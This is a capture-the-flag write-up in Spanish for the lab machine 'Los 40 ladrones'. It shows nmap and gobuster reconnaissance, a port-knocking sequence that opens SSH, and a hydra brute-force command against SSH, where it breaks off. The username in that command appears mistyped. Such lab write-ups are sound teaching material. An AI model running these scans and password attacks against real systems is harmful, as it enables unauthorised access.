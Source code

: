 # Los 40 ladrones
![image](https://github.com/user-attachments/assets/a47f0df8-8745-432f-83bc-3604923d79c9)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
sudo nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
En la página principal vemos la página por defecto de Apache, por lo que vamos a hacer fuzzing con **gobuster**.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
![image](https://github.com/user-attachments/assets/cc49357e-34fe-4d07-a009-1113f95e770c)

![image](https://github.com/user-attachments/assets/527503ea-c5e6-49fe-99f5-d639bb52c61d)

Nos encontramos con este mensaje en el archivo txt que encontramos con **gobuster** llamado *qdefense.txt*.
A parte que nos informa de un posible usuario **toctoc**, por la información del fichero podría tratarse de una secuencia de puertos que tendríamos que utilizar para obtener información. Deberemos utilizar la técnica de **Port Knocking**.

*Port Knocking es una técnica de seguridad utilizada para controlar el acceso a servicios en un servidor, como una forma de autenticación antes de permitir la conexión a puertos específicos. La idea principal es que los puertos en un servidor están "cerrados" y no responden a conexiones normales hasta que se haya completado una secuencia particular de intentos de conexión en puertos específicos, conocida como "knock sequence" o secuencia de golpeo.*

**¿Cómo funciona?**

*Secuencia de Golpeo:* El usuario debe intentar conectarse a una serie de puertos en un orden específico. Por ejemplo, primero al puerto 7000, luego al 8000, y finalmente al 9000. Estos intentos pueden hacerse con paquetes de TCP, UDP o ICMP.

*Registro de Golpes:* El servidor está monitoreando los intentos de conexión a estos puertos. No responde a los intentos, pero los registra.

*Verificación de la Secuencia:* Si el servidor detecta que se ha seguido la secuencia correcta de golpes en los puertos, puede activar un script o una regla de firewall que abra el puerto que el usuario quiere acceder (por ejemplo, el puerto 22 para SSH).

*Acceso Permitido:* Una vez que se permite el acceso, el usuario puede conectarse normalmente al puerto deseado.

Primero de todo instalaremos **knock**.
```
sudo apt update && sudo apt install -y knockd
```
Una vez instalado ejecutamos el siguiente comando.

```
knock -v 172.17.0.2 7000 8000 9000
```
![image](https://github.com/user-attachments/assets/14fc05a6-7afb-4e81-9f4a-7d38e09b7136)

Volvemos a hacer un escaneo de puertos y obtendremos acceso al puerto 22.
```
❯ sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-30 11:27 CEST
Initiating ARP Ping Scan at 11:27
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:27, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:27
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:28, 26.52s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000076s latency).
Scanned at 2024-07-30 11:27:39 CEST for 26s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Ahora utilizamos **hydra** con el usuario **toctoc** obtenido en el archivo txt, para con fuerza bruta descubrir la contraseña.

```
hydra -l tocto -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```





